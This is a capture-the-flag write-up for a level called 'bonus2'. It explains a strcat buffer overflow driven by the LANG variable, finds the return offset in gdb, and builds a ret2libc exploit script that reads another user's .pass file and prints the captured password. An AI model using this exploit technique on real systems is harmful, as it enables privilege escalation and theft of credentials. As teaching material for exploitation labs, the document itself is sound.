 # Speaking in LANG's (bonus2)

This [binary](source.c) will greet the user differently base on the `LANG`
environment variable. To do anything it requires two arguments. These arguments
are copied back to back in memory. If the first one is big enough, meaning it
actually contains 40 bytes of data without any null byte, the second one is
going to be concanated to it in memory. And then both arguments are going to be
used down the line even though only the first one was to be used. This allows us
to perform a buffer overflow on the `strcat` call in the _greetuser_ function.

This call will concatenate the user input with a custom greeting that will be
more or less long depending on the language:

```shell
# run gdb on the binary
gdb ./bonus2
(gdb) p strlen("Hello ")
$1 = 6
(gdb) p strlen("Goedemiddag! ")
$2 = 13
(gdb) p strlen("Hyvää päivää ")
$3 = 18
(gdb) quit
# test with the finnish version
LANG=fi ./bonus2 "aaaaaaa" "bbbbbbb"
Hyvää päivää aaaaaaa
```

Here, the longer the better since it will allow us to overwrite more data in
memory. Now let's make this buffer overflow and see where is _greetuser_'s
return address:

```shell
# set the LANG to the value we want
(gdb) set environment LANG=fi
# run with arguments filling the entire buffers
(gdb) run `python -c 'print "a" * 40'` `python -c 'print "aaaabbbbccccddddeeeeffffgggghhhh"'`
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggghhhh

Program received signal SIGSEGV, Segmentation fault.
0x66666565 in ?? ()
```

0x66 is the ascii code for 'e' and 0x65 for 'f'. This means that the return
address starts at the 18th byte of our second argument and that we have 10 more
bytes we can overwrite (not counting the null byte added at the end by
`strcat`). This is where the fun begins. What we're gonna do is a ret2libc like
in [level2](../level2):

| padding (18) | system (4) | exit (4)   | SHELL's address |
|--------------|------------|------------|-----------------|
| 0x616161...  | 0xb7e6b060 | 0xb7e5ebe0 | 0xbffffdc1      |

This is what the second argument looks like. For this to work we need also to
set `LANG` to "fi" and put the command we want to execute in the `SHELL` env.

Here's the script that does all that:

```shell
export SHELL="cat /home/user/bonus3/.pass"
export LANG=fi
ARG1=$(python -c 'print "a" * 40')
ARG2=$(python -c 'print "b" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xbf\xff\xfd\xc1"[::-1]')
./bonus2 $ARG1 $ARG2
# outputs -> 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

> The tricky part here was finding the SHELL env variable's address. For this we
> used a little helper [program](env_finder.c) which we used to get the address
> it was in function of the number of arguments and of the environment. Event
> then, the address was not exact. The result was found by trial and error based
> on the errors returned by the failing `sh` command.
